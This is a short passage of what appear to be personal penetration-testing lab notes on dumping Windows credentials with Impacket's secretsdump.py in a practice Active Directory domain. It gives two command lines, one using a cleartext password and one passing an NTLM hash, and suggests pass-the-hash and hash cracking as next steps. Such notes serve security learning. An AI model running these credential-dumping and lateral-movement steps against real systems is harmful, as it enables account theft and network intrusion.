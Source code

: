 Dump credentials with *secretsdump.py*:
```bash
secretsdump.py MARVEL.local/frank:'Password1'@10.0.0.19
```
Only works when the windows firewall is turned off.

Dump credentials on THEPUNISHER:
![[Pasted image 20240320190418.png]]

Dump credentials on SPIDERMAN:
![[Pasted image 20240320204056.png]]

>[!Note] Look carefully!
>There could be cleartext passwords in the output!


Dump hashes with *secretsdump.py* via hash:
```bash
secretsdump.py administrator@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

Results:
![[Pasted image 20240320205153.png]]

Possible next steps:
- Use the dumped hashes in pass-the-hash attacks (iterate -> lateral movement)
- Crack the dumped hashes